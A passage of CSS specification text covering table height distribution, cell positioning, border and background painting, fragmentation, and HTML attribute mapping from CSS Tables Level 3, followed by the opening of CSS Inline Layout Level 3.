> Chrome and Edge apply percentages on the final layout. All browsers work around them during the first pass by considering them 0% (Chrome) or by ignoring the declaration (Edge, Firefox). The difference of choice is visible in [Case 12](https://jsfiddle.net/vmfrLzke/1/). [Case 13](http://codepen.io/FremyCompany/pen/obdYjv?editors=1100).

##### 3.10.5. Distribution algorithm {#css-tables-3:height-distribution-algorithm}

The first step is to attribute to each row its base size and its reference size.

Its **base size** is the size it would have got if the table didn’t have a specified height (the one it was assigned when ROWMIN was evaluated).

Its **reference size** is the largest of

- its initial base height and
- its new base height (the one evaluated during the second layout pass, where percentages used in rowgroups/rows/cells' specified heights were resolved according to the table height, instead of being ignored as 0px).

The second step is to compute the final height of each row based on those sizes.

If the table height is equal or smaller than sum of reference sizes, the final height assigned to each row will be the weighted mean of the base and the reference size that yields the correct total height.

Else, if the table owns any “auto-height” row (a row whose size is only determined by its content size and none of the specified heights), each non-auto-height row receives its reference height and auto-height rows receive their reference size plus some increment which is equal to the height missing to amount to the specified table height divided by the amount of such rows.

Else, all rows receive their reference size plus some increment which is equal to the height missing to amount to the specified table height divided by the amount of rows.

> **Advisement:** The cells whose position depended on the bottom of any updated row must be positioned correctly again in their respective rows.
>
> At this point, cell boxes that are smaller than the collective height of the rows they span receive extra top and/or bottom padding such that their content does not move vertically but their top/bottom edges meet the ones of the first/last row they span.

##### 3.10.6. Table-cell content layout (second pass) {#css-tables-3:table-cell-content-relayout}

Once table-height distribution has concluded, and the sum of row heights plus spacing/border is equal to the table height, the content of table-cells which contained descendants whose percentage heights were ignored or treated as 0px by the first-pass row layout rules [(see above)](#css-tables-3:row-layout) must undergo a second layout pass, as defined below.

> **Note:** that this means UAs are either required to keep track of the usage of percentages in the properties of any direct child of the table-cell including (but not limited to) the `height` and `min-height` properties for horizontal flows and the `width` and `min-width` properties for vertical flows, or else required to perform this second layout pass on table-cell content in all cases.

**Resolve percentage heights in table-cell content:** Once the final size of the table and the rows has been determined, after height distribution has concluded, the content of the table-cells must also go through a second layout pass, where, if appropriate, percentage-based heights are this time resolved against their parent cell used height.

**It is appropriate to resolve percentage heights on direct children of a table-cell** if the cell is considered to have its height specified explicitly or the child is absolutely positioned, see [CSS 2](#css2:the-height-property).

For compat reasons, it is further clarified that a cell is considered to have its height specified explicitly if the computed height of the cell is a length, or if the computed height of its table-root ancestor is a length or percentage, regardless of whether that percentage does behave as auto or not.

> **Example:** To clarify the preceding statements, here is a table of the resulting "A" div height based on the value being used:
>
> ```
> <section style="height: var(--wrapper-height)">
>   <table style="height: var(--table-height)">
>     <tr>
>       <td style="height: var(--table-cell-height)">
>
>         <div style="height:100%; background:yellow">A</div>
>
>       </td>
>       <td style="height: var(--other-table-cell-height)">
>
>         B<br>C
>
>       </td>
>     </tr>
>   </table>
> </section>
> ```
>
> | --table-cell-height | --table-height | result |
> | --- | --- | --- |
> | <length> | *<any>* |  |
> | *<any>* | <length> |  |
> | *<any>* | <percentage> |  |
> | auto | auto |  |
> | <percentage> | auto |  |
>
> Note that neither `--other-table-cell-height` nor `--wrapper-height` do influence the algorithm’s outcome.
>
> A previous version of this specification incorrectly stated that `--wrapper-height` was taken into account when the table had a percentage height, but compat issues appeared when an implementation landed, and the behavior was then special-cased.

> **Note:** It is possible that this second layout pass (where height percentages are being resolved) will make some cell contents overflow their parent cell, for instance if the sum of all percentages used is superior to 100%. This is by design.

#### 3.11. Positioning of cells, captions and other internal table boxes {#css-tables-3:bounding-box-assignment}

> **Issue:** We need a resolution on what visibility:collapse does. [[Issue #478]](https://github.com/w3c/csswg-drafts/issues/478)

Once the width of each column and the height of each row of the table grid has been determined, the final step of algorithm is to assign to each table-internal box its final position.

The width/height/left/top calculated below define the dimensions of the CSS Layout Box, which means that they are accessible via the [offset* properties](#cssom-view-1:extensions-to-the-htmlelement-interface) defined in CSSOM-VIEW, (currently limited to css boxes for which you can obtain a corresponding HTMLElement reference).

The table-wrapper box is then sized such that it contains the margin box of all table-non-root boxes as well as the table-root border-box.

> **Note:** The position defined here is the position of the children inside the space reserved for the table-wrapper, which excludes only its margins. This is because the captions of the table are located outside the border-box area of the table-root.

The **position of any table-caption having "top" as `caption-side`** within the table is defined as the rectangle whose:

- width/height is:

  - the width/height assigned to the caption during layout
- top location is the sum of:

  - the height reserved for previous top captions (including margins), if any
  - any necessary extra top margin remaining after collapsing margins with the previous caption, if any.
- left location is the sum of:

  - the margin left of the caption
  - half of (the table width minus the width of caption and its total horizontal margin).

The **position of any table-cell, table-track, or table-track-group box** within the table is defined as the rectangle whose:

- width/height is the sum of:

  - the widths/heights of all spanned visible columns/rows
  - the horizontal/vertical `border-spacing` times the amount of spanned visible columns/rows minus one
- left/top location is the sum of:

  - for top: the height reserved for top captions (including margins), if any
  - the padding-left/padding-top and border-left-width/border-top-width of the table
  - the widths/heights of all previous visible columns/rows
  - the horizontal/vertical `border-spacing` times the amount of previous visible columns/rows plus one

> **Note:** **Reminder:** For table-track and table-track-group boxes, all tracks of the opposite direction to the grouping are considered spanned. For instance, a table-header-group is considered to span all the columns, and a table-column-group is considered to span all the rows.

> **Note:** The above formula takes into account `border-spacing`, and it might not be directly obvious what the effect of these mean, so here are a couple of properties of those formula:
>
> - the border-spacing before the first track or after the last track in a direction is not included in any track’s or track-group’s breadth.
> - the border-spacing between tracks is not included in any track’s breadth, but is included in the breadth of track-groups spanning both tracks.

The **position of any table-caption having "bottom" as `caption-side`** within the table is defined as the rectangle whose:

- width/height is:

  - the width/height assigned to the caption during layout
- top location is the sum of:

  - the height reserved for top captions (including margins), if any
  - padding-top and border-top-width of the table
  - the height of all visible rows
  - padding-bottom and border-bottom-width of the table
  - the height reserved for previous bottom captions (including margins), if any
  - any necessary extra top margin remaining after collapsing margins with the previous bottom caption, if any.
- left location is the sum of:

  - the margin left of the caption
  - half of (the table width minus the width of caption and its total horizontal margin).

> **Advisement:** **Cell overflow:**  If the table is laid out in fixed mode, if the content of some cell has grown more than the cell during its second layout pass or if some tracks spanned by visible cells are deemed not visible, the content of some cells may exceed the available space, and cause an overflow. Such overflow should behave exactly like if the cell was an absolutely positioned display:block box with the appropriate alignment in place to keep its content in place relative to its inline-start block-start corner (usually top left). [!Testcase](https://jsfiddle.net/24bz3Lp1/) [!Testcase](https://jsfiddle.net/24bz3Lp1/1/) [Testcase](https://jsfiddle.net/24bz3Lp1/3/)

> **Advisement:** **Visible tracks:**  For the purpose of this algorithm, a column or row is considered a **visible track** if neither its corresponding table-track nor its table-track-group parent (if any) have `visibility` set to `collapse`.

> **Example:** 
>
> Diagram of a table with a caption above it.

> **Note:** [~Testcase](https://jsfiddle.net/3pox7b4f/) [!!Testcase](https://jsfiddle.net/3pox7b4f/1/) [!!Testcase](https://jsfiddle.net/3pox7b4f/3/) [!!Testcase](https://jsfiddle.net/3pox7b4f/4/) [Testcase](https://jsfiddle.net/3pox7b4f/5/)

### 4.  Absolute Positioning {#css-tables-3:abspos}

#### 4.1.  With a table-root as containing block {#css-tables-3:abspos-boxes-in-table-root}

If an absolutely positioned element’s containing block is generated by a table-wrapper box, the containing block corresponds to the area around which the table margins are applied, including the area where the table border is drawn and the margin area of any table-caption. The offset properties (`top`/`right`/`bottom`/`left`) then indicate offsets inwards from the corresponding edges of this containing block, as normal.

Absolute positioning occurs after layout of the table and its in-flow contents, and does not contribute to the sizing of any table grid tracks or affect the size/configuration of the table grid in any way.

> **Example:** The figure below shows how a box absolutely-positioned relative to a table should be rendered.    The **yellow** area is the table content edge, yellow arrows the table margins.   The **green** area is the table caption, green arrows the caption margins.   The **blue** area is the table background area, and the darker blue area where the table border area.   The **black** area is the descendant positioned relative to the table, the arrows represent the top/left/bottom/right displacements.
>
> ![[see-caption-above]](../css-tables-3/images/css-tables-abspos.svg)

#### 4.2.  With a table-internal as containing block {#css-tables-3:abspos-boxes-in-table-internal}

If an absolutely positioned element’s containing block is generated by a table-internal, the containing block corresponds to the area starting at the top left corner of the [the area that would be assigned to the box during layout](#css-tables-3:bounding-box-assignment) but whose size is computed to be the one of [the area that would be assigned to the box during layout](#css-tables-3:bounding-box-assignment) if all tracks were considered visible (irrespective of `visibility` being set co collapse on some boxes), not including borders and paddings as appropriate.

> **Note:** This is done so that hiding column does not trigger a layout in the absolutely-positioned boxes, and the content being clipped doesn’t seem to be moving. [!!Testcase](https://wptest.center/#/uxin57) [!!Testcase](https://wptest.center/#/vcmy48)

The offset properties (`top`/`right`/`bottom`/`left`) then indicate offsets inwards from the corresponding edges of this containing block, as normal.

> **Issue:** This only works in Firefox. It would make it easier to implement position:sticky in the future, though. [[Chrome bug]](https://bugs.chromium.org/p/chromium/issues/detail?id=417223) [[Interop risk: Firefox bug]](https://bugzilla.mozilla.org/show_bug.cgi?id=1289682) [[Issue #858]](https://github.com/w3c/csswg-drafts/issues/858)

#### 4.3.  With a table-internal box as non-containing block parent {#css-tables-3:static-position}

The only influence of non-containing block parent of an absolutely-positioned box is to define its static position, in case both top+bottom and/or left+right end up being auto.

For table-cells, the absolutely-positioned content is positioned follows the rules for block layout as usual.

Due to [table fixup](#css-tables-3:fixup), it is not possible to create an absolutely-positioned box that is the child of a table-internal box that is not a table-cell (see note about float and position for more details).

### 5. Rendering {#css-tables-3:rendering}

#### 5.1. Paint order of cells {#css-tables-3:paint-order}

Table cells are painted in a table-root in DOM order as usual, independently of where cells end up actually being drawn.

#### 5.2. Empty cell rendering (separated-borders mode) {#css-tables-3:empty-cell-rendering}

| Field | Value |
| --- | --- |
| Name: | **empty-cells** |
| [Value:](#css-values-4:value-defs) | show \| hide |
| [Initial:](#css-cascade-6:initial-values) | show |
| [Applies to:](#css-cascade-5:applies-to) | table-cell boxes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

In collapsed-borders mode, this property has no effect.

In separated-borders mode, when this property has the value `hide`, no borders or backgrounds are drawn around/behind empty cells.

An **empty cell** is a table-cell containing neither:

- floating content, nor
- in-flow content (other than white space that has been collapsed away by the `white-space` property handling).

> **Issue:** Can we simplify empty-cells:hide? [[Issue #605]](https://github.com/w3c/csswg-drafts/issues/605)

> **Example:** For example, take the following markup and css:
>
> ```markup
> <table>
>   <td><span></span></td>
>   <td></td>
>   <td><span></span></td>
> </table>
> ```
>
> ```css
> table {
>   width: 500px; height: 300px;
>   empty-cells: hide;
> }
>
> table { background: black; border: 10px solid black; }
> td { background: white; }
>
> table { border-spacing: 0px; }
> td { padding: 0; }
> ```
>
> The correct rendering of this code snippet is depicted here:
>
> ![[see-caption-below]](../css-tables-3/images/empty-cells-example.gif)
>
> Rendering of three columns whose middle one is hidden by empty-cells:hide

#### 5.3. Drawing backgrounds and borders {#css-tables-3:drawing-backgrounds-and-borders}

##### 5.3.1. Drawing table backgrounds and borders {#css-tables-3:drawing-table-backgrounds-and-borders}

Unlike other boxes types, table and inline-table boxes do not paint their background and borders around their entire client rect. Indeed, the table captions are to be visually positioned between the table margins and its borders, which means the drawing areas of various effects applied to the table-root need to be modified.

**Painting areas:**

- Backgrounds, borders and outlines painted relative to the content-box of a table-root are painted relative to the rectangular area occupied by the table grid and its border spacings.
- Backgrounds, borders and outlines painted relative to the padding-box of a table-root are painted relative to the rectangular area occupied by the table grid and its border spacings, extended on each side by the table-root padding.
- Backgrounds, borders and outlines painted relative to the border-box of a table-root are painted relative to the rectangular area occupied by the table grid and its border spacings, extended on each side by the table-root padding and border-width.

> **Note:** This does not affect other uses of these concepts, like [absolute positioning](#css-tables-3:abspos).

[!Testcase](https://wptest.center/#/6xd2b3)

###### 5.3.1.1. Changes in collapsed-borders mode {#css-tables-3:drawing-collapsed-borders-1}

When a table is laid out in collapsed-borders mode, the rendering of its borders on and those of its table-cells is modified. The following rules describe in which way.

> **Note:** The rules for background and borders painting defined in [§ 5.3 Drawing backgrounds and borders](#css-tables-3:drawing-backgrounds-and-borders) still apply if they are not overridden.

Borders of a non-empty table-root are not painted in collapsed-borders mode, except if the `border-image` property is set.

In this latter case, the border is drawn as if the table border was twice as big as its used value specify, and as if that excess was rendered inside the padding area of the table-root.

> **Note:** Even if they are not drawn by the table, the table borders still occupy their space in the layout. Cells will [render those shared borders](#css-tables-3:drawing-cell-borders).

##### 5.3.2. Drawing cell backgrounds {#css-tables-3:drawing-cell-backgrounds}

> **Advisement:** Anonymous table-cells added by the [missing cells fixup](#css-tables-3:missing-cells-fixup) step do not render any of their backgrounds.
>
> In addition to its own `background`, table-cell boxes also render the backgrounds of the table-track and table-track-group boxes in which they belong. This is actually different from simply inheriting their background because the `background-origin` and `background-size` computations will actually be done on the bounds of the grouping boxes, and not on those of the cell.
>
> For the purposes of finding the background of each table cell, the different table boxes may be thought of as being on six superimposed layers. The background set in one of the layers will only be visible if the layers above it have a transparent background.
>
> ![[see-caption-below]](../css-tables-3/images/tbl-layers.png)
>
> Schema of table layers.

1. The table background is being rendered by the table, and does not affect the cell background.
2. The first background drawn by a cell is the background of its originating table-column-group (if any). For the purpose of background-positioning, it is expected that a column group occupies the largest possible area a single cell could occupy in the row/column grid while originating in the column group and not entering any column not part of the column group.
3. The second background drawn by a cell is the background of its originating table-column (if any). For the purpose of background-positioning, it is expected that a column occupies the largest possible area a single cell could occupy in the row/column grid while originating in the column and not entering any other column.
4. The third background drawn by a cell is the background of its originating table-row-group (if any). For the purpose of background-positioning, it is expected that a row group occupies the largest possible area a single cell could occupy in the row/column grid while originating in the row group and not entering any row not part of the row group.
5. The fourth background drawn by a cell is the background of its originating table-row (if any). For the purpose of background-positioning, it is expected that a row occupies the largest possible area a single cell could occupy in the row/column grid while originating in the row and not entering any other row.
6. The fifth background drawn by a cell is its own background. This is the one that appears on top once all backgrounds have been rendered.

As the figure above shows, although all rows contain the same number of cells, not every cell may have specified content. In separated-borders mode, if the value of their `empty-cells` property is `hide`, these empty cells are not rendered at all, as if `visibility: hidden` was specified on them, letting the table background show through.

##### 5.3.3. Drawing cell borders {#css-tables-3:drawing-cell-borders}

In separated-borders mode, borders of table cells are rendered as usual.

###### 5.3.3.1. Changes in collapsed-borders mode {#css-tables-3:drawing-collapsed-borders-2}

Borders of a table-cell are rendered in collapsed-borders mode as if the cell border was twice as big as its used value specify, and as if that excess was rendered in the margin area of the cell, with the added constraint that for each side of the border which isn’t located at one of the table edges, the border is actually clipped to the border-box drawing area as its real used value define except if the `border-image` property is set.

If applying the previously-mentioned clipping behavior results in clipping a border over a non-integer amount of device pixels, browsers may decide to snap the clipping area to a device pixel instead by ceiling the x- and y-values of the clipping area. Ceiling the values ensures that in a normal writing mode, the cell which gets the contested pixels between multiple cells is actually the most top left one, which has a greater specificity than the other ones according to this spec. See [§ 5.1 Paint order of cells](#css-tables-3:paint-order) and [§ 3.7.1.1 Conflict Resolution Algorithm for Collapsed Borders](#css-tables-3:border-conflict-resolution-algorithm).

##### 5.3.4. Border styles (collapsed-borders mode) {#css-tables-3:border-style-overrides}

Some of the values of the `border-style` have different meanings for tables in collapsed-borders mode than usual. Those definitions override the default behavior for `border-style` values.

**hidden**

: Same as `none`, but also inhibits any other border (see [§ 3.7.1.3 Specificity of a border style](#css-tables-3:border-specificity)).

**inset**

: Same as `ridge`.

**outset**

: Same as `groove`.

#### 5.4. Rendering for visibility: collapse {#css-tables-3:visibility-collapse-rendering}

When a table part has [visibility: collapse](#css2:visibility) set, the rendering is handled differently depending if it is on a table-cell, spanning table-cell, or a table-track/table-track-group.

##### 5.4.1. Rendering a visibility: collapse table cell {#css-tables-3:visibility-collapse-cell-rendering}

As stated in CSS 2.2, if a table-cell has its visibility set to that of collapse, it is rendered the same as if it had [visibility: hidden](#css2:visibility) set.

> **Note:** This happens when you set visibility:collapse on a table-row that contains a table-cell. If you want to hide a row but continue to display its cells that span other rows, set visibility:visible on those cells to prevent them from inheriting their value.

If the table-cell is spanning more than one table-track, and at least one of those table-track is set to [visibility: collapse](#css2:visibility) then clip the content to the table-cell’s border-box. This means that the top left (top right in rtl) content of the cell will continue to show, regardless of which of the tracks the cell spans has been collapsed.

##### 5.4.2. Rendering a visibility: collapse table-track or table-track-group {#css-tables-3:visibility-collapse-track-rendering}

When a table-track or table-track-group has [visibility: collapse](#css2:visibility), all the backgrounds, borders or outlines that are contributed by the cells within the given table-track or table-track-group will continue to be painted on cells that have not been fully collapsed (because they spanned multiple tracks).

### 6. Fragmentation {#css-tables-3:fragmentation}

#### 6.1. Breaking across fragmentainers {#css-tables-3:breaking-rules}

When fragmenting a table, user agents must attempt to preserve the table rows unfragmented if the cells spanning the row do not span any subsequent row, and their height is at least twice smaller than both the fragmentainer height and width. Other rows are said **freely fragmentable**.

When a table doesn’t fit entirely in a fragmentainer, at least one row did fit entirely in the fragmentainer, and the first row that does not fit in the fragmentainer is not freely fragmentable. the user agent has to insert some vertical gap between the rows located before and at the overflow point such that the two rows end up separated in sibling fragmentainers. If the fragmentation requires repeating headers and footers, and the footer is repeated, then the footer must come directly after the last row in the fragmentainer and the vertical gap must be inserted after the repeated footer.

![[see-caption-below]](../css-tables-3/images/CSS-Tables-Fragmentation-1.svg)

Expected rendering of table fragmented across two pages

When there is no row fitting entirely in the current fragmentainer or when the first row that does not fit in the fragmentainer is freely fragmentable, user agents must attribute all the remaining height in the fragmentainer to the cells of that row, and fit as much content as it can in each of the cells independently, then break to the next fragment and start the content of each cell where it was stopped in its previous fragment (top borders must not be repainted in continuation fragments).

![[see-caption-below]](../css-tables-3/images/CSS-Tables-Fragmentation-2.svg)

Expected rendering of table containing a tall row fragmented across two pages

When `break-before` or `break-after` is applied to a table-row-group or a table-row box, the user agent has to insert some vertical gap between the rows located before and after the breaking point such that the two rows end up separated in sibling fragmentainers as required by the property value. If the fragmentation requires repeating headers and footers, and the footer is repeated, then the footer must come directly after the last row in the fragmentainer and the vertical gap must be inserted after the repeated footer.

#### 6.2. Repeating headers across pages {#css-tables-3:repeated-headers}

When rendering the document into a paged media, user agents must repeat header rows and footer rows on each page spanned by a table if the page is the table’s fragmentainer, if the header/footer has avoid `break-inside` applied to it, if the height required to do so is inferior to two quarters of the page height (up to one quarter for header rows, and up to one quarter for footer rows), and if that doesn’t cause a row to be displayed twice on that page.

When the header rows are being repeated, user agents must leave room and if needed render the table top border. The same applies for footer rows and the table bottom border.

![[see-caption-below]](../css-tables-3/images/CSS-Tables-Repeating-Headers.svg)

Expected rendering of table with headers and footers fragmented across two pages

> **Advisement:** User agents may decide to extend this behavior to more fragmentation contexts, for instance repeat headers/rows across columns in addition to pages. User-agents that are rendering static documents are more likely to adopt this behavior, though this is not required per spec.

### 9. List of bugs being tracked {#css-tables-3:bug-list}

This section is not normative.

- [Align=center attribute overrides css margins in Edge](http://codepen.io/FremyCompany/pen/jWzpjq?editors=1100)

  Chrome and Firefox let CSS win.  Edge hides every border + table/row-group/row background.    This specification says that Chrome and Firefox are right.  [§ 10.1 Mapping between CSS & HTML attributes](#css-tables-3:mapping)
- [Chrome applies nowrap quirks mode fix in DOCTYPE documents too](http://codepen.io/FremyCompany/pen/ZQxVMo?editors=1100)

  Edge and Firefox do not apply the fix in normal mode.  Chrome also applies it for css widths, which is not what the spec says to do.    The WHATWG spec says that Chrome is wrong.  This spec is aiming to state the same thing.  [§ 10.1 Mapping between CSS & HTML attributes](#css-tables-3:mapping)
- [Edge does not account for widths of spanned cells](http://codepen.io/FremyCompany/pen/RrMvPR?editors=1100)

  Chrome and Firefox merge the two columns so are not affected.  Edge does not then is confused about what to do.    The specs says that Edge is wrong.  [§ 3.3 Dimensioning the row/column grid](#css-tables-3:dimensioning-the-row-column-grid)
- [Chrome and Gecko do not apply display:table-cell on <button>](https://jsfiddle.net/6L94pxgn/1/#6188753)

  Also [@lt;fieldset>](https://jsfiddle.net/6L94pxgn/3/). This specification says that Chrome and Firefox are wrong.  [§ 3.6 Style overrides](#css-tables-3:style-overrides)
- [Edge’s table-cell width unexplainably low due to percentage-max-width on content and colspan](http://codepen.io/FremyCompany/pen/xZWmXy?editors=1100)

  Edge has issues with percentage widths.    This specification should say that Chrome and Firefox are right, I guess.  [§ 3.8.2 Computing Cell Measures](#css-tables-3:computing-cell-measures)
- [Table wrapper boxes should be wide enough to contain the caption](http://codepen.io/FremyCompany/pen/PZRdzo?editors=1100)

  Chrome uses the CSS21 algorithm that fulfill this.  Firefox and Edge use David Baron’s algorithm that doesn’t.    This specification has no opinion yet on the matter.  Chrome behavior is simpler to spec but not intuitive.  [§ 3.9.1 Computing the table width](#css-tables-3:computing-the-table-width)     This may be solved by  [www-list](https://lists.w3.org/Archives/Public/www-style/2010Sep/0186.html) on the width of the table boxes in relation to their table captions
- [Tables containing no row cannot have height in Chrome, but can in Edge/Firefox](http://codepen.io/FremyCompany/pen/VeXVwz?editors=1100)

  Chrome has table height = 0px.  Firefox and Edge have table height = specified height.    This specification has no opinion yet on the matter.  Firefox and Edge match author intentions better.  [§ 3.10.1 Computing the table height](#css-tables-3:computing-the-table-height)
- [Table-layout:fixed causes different width distribution in Chrome](http://codepen.io/FremyCompany/pen/yeKRGW?editors=1100)

  Chrome starts to value px then percentages.  Others continue to value percentage then px.    This specification has no opinion yet on the matter.  It is intended to specify the Edge/Firefox behavior.  [§ 3.9 Available Width Distribution](#css-tables-3:width-distribution)
- [Chrome distributes the height to each row differently then IE and firefox](http://codepen.io/FremyCompany/pen/XXEoWe?editors=1100)

  Chrome distributes rather equally.  Edge and Firefox work more similarly to width distribution.    This specification has no opinion yet on the matter.  I think it makes sense to behave similarly for width and height, though.  [§ 3.10 Available Height Distribution](#css-tables-3:height-distribution)
- [Height of rows which can overflow varies in Chrome vs Edge (percentage heights during min-height computation)](http://codepen.io/FremyCompany/pen/PZRdOP?editors=1100)

  Chrome chooses table constraints over the no-scroll constraint.  Edge and Firefox do the opposite.    This specification has no opinion yet on the matter.  Edge’s behavior is right by default due to CSS Sizing, though.  It would make sense to do what Chrome is doing when elements have non-visible overflow-y.  [§ 3.10 Available Height Distribution](#css-tables-3:height-distribution) [#REF](#css-tables-3:min-content-and-percentages)
- [Height specified on row groups is not interoperable](http://codepen.io/FremyCompany/pen/MKVPGR?editors=1100)

  Chrome ignores the height.  Firefox respects the height.  IE applies the height to each cell.    This specification has no opinion yet on the matter.  An author would expect the Firefox behavior.  [§ 3.10 Available Height Distribution](#css-tables-3:height-distribution)
- [Min-Height specified on rows is not interoperable](http://codepen.io/FremyCompany/pen/MKVPGR?editors=1100)

  Chrome and Firefox ignore the height.  Edge applies the height.    The working group resolved on Edge behavior.  An author would expect the Edge behavior.  [§ 3.10 Available Height Distribution](#css-tables-3:height-distribution)
- [Table with interleaved td[rowspan] rendered wrong in IE (145069)](http://jsfiddle.net/ArtyomShegeda/Ffjhn/1/)

  Edge height-sizing has issues with this crossed-rowspan table.    There is no doubt this is a bug, but it is a good test case for the algorithm.   [§ 3.10 Available Height Distribution](#css-tables-3:height-distribution)
- [Row with explicit 'visibility:visible' lose background color when parent table has 'visibility: hidden'](http://codepen.io/FremyCompany/pen/MKVqXQ?editors=1100)

  Chrome only hides table background + border.  Firefox hides table background + border, and row-group background.  Edge hides every border + table/row-group/row background.    This specification currently says that Chrome is right.  [§ 5.3.2 Drawing cell backgrounds](#css-tables-3:drawing-cell-backgrounds)

  > **Issue:** Should we hide the row-group background by saying cells only draw the backgrounds of visibility:visible grouping elements?

### 10. Appendices {#css-tables-3:appendices}

#### 10.1. Mapping between CSS & HTML attributes {#css-tables-3:mapping}

The default style sheet for HTML4 illustrates how its model maps to css properties and values:

> **Note:** Some extensions to CSS have been used for constraints not mappable to current CSS constructs

```css
table    { display: table }
thead    { display: table-header-group }
tbody    { display: table-row-group }
tfoot    { display: table-footer-group }
tr       { display: table-row }
td, th   { display: table-cell }
colgroup { display: table-column-group }
col      { display: table-column }
caption  { display: table-caption }
table, thead, tbody, tfoot, tr, td, th, colgroup, col, caption { box-sizing: border-box; }
thead, tfoot { break-inside: avoid }

table {
  box-sizing: border-box;
  border-spacing: 2px;
  border-collapse: separate;
  text-indent: initial;
}

thead, tbody, tfoot, table > tr { vertical-align: middle; }
tr, td, th { vertical-align: inherit; }

td, th { padding: 1px; }
th { font-weight: bold;	}

table, td, th { border-color: gray; }
thead, tbody, tfoot, tr { border-color: inherit; }

table[frame=box i], table[frame=border i], table[frame=hsides i], table[frame=above i], table[frame=below i], table[frame=vsides i], table[frame=lhs i], table[frame=rhs i] {
  border: 1px solid inset;
}

table:is([rules=all i], [rules=rows i], [rules=cols i], [rules=groups i], [rules=none i]) {
  border-collapse: collapse;
  border-style: hidden;
}

table:is([rules=all i], [rules=rows i], [rules=cols i], [rules=groups i], [rules=none i]),
table:is([rules=all i], [rules=rows i], [rules=cols i], [rules=groups i], [rules=none i]) > :is(thead,tbody,tfoot) > tr > :is(th,td) {
  border-color: black;
}

table[border=$border] /* if(parseInt($border) > 0) */ {
  border: /*(parseInt($border) * 1px)*/ outset rgb(128, 128, 128);
}
table[border=$border] > :is(thead,tbody,tfoot) > tr > :is(th,td) /* if(parseInt($border) > 0) */ {
  border: 1px inset rgb(128, 128, 128);
}

table[rules=all i] > :is(thead,tbody,tfoot) > tr > :is(th,td) {
  border: 1px solid grey;
}
table[rules=rows i] > :is(thead,tbody,tfoot) > tr > :is(th,td) {
  border: 1px solid grey;
  border-left: none;
  border-right: none;
}
table[rules=cols i] > :is(thead,tbody,tfoot) > tr > :is(th,td) {
  border: 1px solid grey;
  border-top: none;
  border-bottom: none;
}
table[rules=none i] > :is(thead,tbody,tfoot) > tr > :is(th,td) {
  border: none;
}

table[rules=groups i] > :is(thead,tbody,tfoot) {
  border-top-width: 1px; border-top-style: solid;
  border-bottom-width: 1px; border-bottom-style: solid;
}
table[rules=groups i] > colgroup {
  border-left-width: 1px; border-left-style: solid;
  border-right-width: 1px; border-right-style: solid;
}

table[frame=box i], table[frame=border i], table[frame=hsides i], table[frame=above i], table[frame=below i], table[frame=vsides i], table[frame=lhs i], table[frame=rhs i] {
  border-style: outset;
}
table[frame=below i], table[frame=vsides i], table[frame=lhs i], table[frame=rhs i] {
  border-top-style: hidden;
}
table[frame=above i], table[frame=vsides i], table[frame=lhs i], table[frame=rhs i] {
  border-bottom-style: hidden;
}
table[frame=hsides i], table[frame=above i], table[frame=below i], table[frame=rhs i] {
  border-left-style: hidden;
}
table[frame=hsides i], table[frame=above i], table[frame=below i], table[frame=rhs i] {
  border-right-style: hidden;
}

table[cellpadding=$x] > :is(thead,tbody,tfoot) > tr > :is(th,td) /* if(parseInt($x)>0) */ {
  padding: /*(parseInt($x) * 1px)*/;
}
table[cellspacing=$x] /* if(parseInt($x)>0) */ {
  border-spacing: /*(parseInt($x) * 1px)*/;
}

table[width=$w] /* if(parseInt($w) > 0) */ {
  width: /*(parseInt($w) * 1px)*/;
}
table[width=$w] /* if($w matches /(+|-|)([0-9]+([.][0-9]+|)|([.][0-9]+))[%]/) */ {
  width: /*(parseInt($w) * 1px)*/;
}
table[height=$h] /* if(parseInt($h) > 0) {
  height: /*(parseInt($h) * 1px)*/;
}
table[height=$h] /* if($h matches /(+|-|)([0-9]+([.][0-9]+|)|([.][0-9]+))[%]/) */ {
  height: /*(parseInt($h) * 1px)*/;
}

table[bordercolor=$color] {
  border-color: /*parseHTMLColor($color)*/;
}
table[bordercolor] > :is(tbody, thead, tfoot, tr, colgroup, col),
table[bordercolor] > :is(tbody, thead, tfoot) > tr,
table[bordercolor] > :is(tbody, thead, tfoot) > tr > :is(td, th),
table[bordercolor] > tr > :is(td, th)
table[bordercolor] > colgroup > col
) {
  border-color: inherit;
}
table[bgcolor=$color] {
  background-color: /*parseHTMLColor($color)*/;
}
table[align=left i] {
  float: left;
}
table[align=right i] {
  float: right;
}
table[align=center i] {
  margin-left: auto;
  margin-right: auto;
}

caption[align=bottom i] { caption-side: bottom; }
:is(thead,tbody,tfoot,tr,td,th)[valign=top i] {
  vertical-align: top;
}
:is(thead,tbody,tfoot,tr,td,th)[valign=middle i] {
  vertical-align: middle;
}
:is(thead,tbody,tfoot,tr,td,th)[valign=bottom i] {
  vertical-align: bottom;
}
:is(thead,tbody,tfoot,tr,td,th)[valign=baseline i] {
  vertical-align: baseline;
}

:is(thead,tbody,tfoot,tr,td,th)[align=absmiddle i] {
  text-align: center;
}

:is(colgroup,col,thead,tbody,tfoot,tr,td,th)[hidden] {
  visibility: collapse;
}

:is(td,th)[nowrap] { white-space: nowrap; }
:is(td,th)[nowrap][width=$w] /* if(quirksMode && parseInt($w) > 0) */ {
  white-space: normal;
}
```

> **Note:** Some of the content here came from the WHATWG spec on the [HTML to CSS mapping of tables](https://html.spec.whatwg.org/#tables-2). However, since they include [things which are not true](https://jsfiddle.net/8t78exf1/) in most browsers, this is not a simple copy. Investigations are therefore required for each and any merge being made from one source to another!

### 11. (link here for missing sections) {#css-tables-3:TODO}

---

## CSS Inline Layout Module Level 3 {#css-inline-3}

- **Shortname:** `css-inline-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-inline-3/](https://drafts.csswg.org/css-inline-3/)
- **Published TR:** [https://www.w3.org/TR/css-inline-3/](https://www.w3.org/TR/css-inline-3/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-10-14

### 1.  Introduction {#css-inline-3:intro}

This module defines inline layout, the CSS model for laying out a mixed stream of text and inline-level boxes, and defines controls for the block-axis alignment and sizing of this content within each line. It also adds a [special layout mode for drop caps and similar initial letter styling](#css-inline-3:initial-letter-styling).

> **Note:** Line-breaking, justification, and other aspects of inline-axis positioning of inline-level content are handled in the [CSS Text Module](#css-text-5).

